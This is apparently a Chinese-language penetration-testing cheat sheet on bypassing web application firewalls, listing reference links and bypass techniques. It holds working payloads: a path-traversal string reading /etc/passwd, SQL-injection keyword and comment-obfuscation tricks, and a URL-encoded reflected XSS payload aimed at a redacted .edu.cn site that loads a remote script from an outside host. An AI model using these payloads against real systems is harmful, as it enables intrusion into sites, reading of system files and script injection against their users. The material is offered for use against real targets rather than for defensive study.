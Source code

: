 # 绕 waf 总结

---

## Reference
- [技术讨论 | 在HTTP协议层面绕过WAF](https://www.freebuf.com/news/193659.html)
- [利用分块传输吊打所有WAF](https://www.anquanke.com/post/id/169738)
- [编写Burp分块传输插件绕WAF](http://gv7.me/articles/2019/chunked-coding-converter/)
- [绕过云锁文件读取防护](https://drivertom.blogspot.com/2019/06/lfi.html)
- WAF绕过思路 [png](../文件/WAF绕过思路.png)

---

## CDN 绕过

1. 域名查询-不是所有域名都解析到CDN说不定有漏网之鱼
2. DNS历史解析记录查询

## 路径限制绕过

比如 WAF 会对访问敏感路径加以限制,但是加上参数可以绕过。

比如想访问 `xxx.██.edu.cn/phpmyadmin/` 会被拦截,访问 `xxx.██.edu.cn/phpmyadmin/?id=1` 可以绕过


例如连续两个 `../` 会被拦截，可以尝试采用 `./`,例如存在关键词，可以使用 `./` 分割,linux 下 `./` 会被忽略

payload: `.././.././.././.././.././.././.././.././.././.././.././etc/./passwd`

## 正则匹配绕过

**关键字替换**

1. AND 等价于 &&
2. OR 等价于 ||
3. = 等价于 like
4. + 代替 空格
5. sleep() 等价于 benchmark()
6. mid()substring() 等价于 substr()

```
最直白的 payload 类似 `<script> alert('xss'); </script>`,但是你可以用 `<script src=来远程加载脚本,并绕过防护`

`http://██.██.edu.cn/██/██?search=naive%22%3E%20%3Cmeta%20name=%22referrer%22%20content=%22never%22%20%3E%20%3Cscript%20src=%22https://cdn.jsdelivr.net/gh/TomAPU/xsstest/test.js%22%3E%3C/script%3E%20%3C!--`
```

**注释符绕过**

1. `/**/` 与 `/*!*/` ,还可以代替空格
2. `select/*@a?v|ddd--n*/xxxxx/*@a?v|ddd--n*/from/*a?v|ddd--n*/xxxx`由于waf解析注释符耗费性能，因此这种方法结合fuzz能找到漏网之鱼
3. emoji 表情
4. -- 与 #
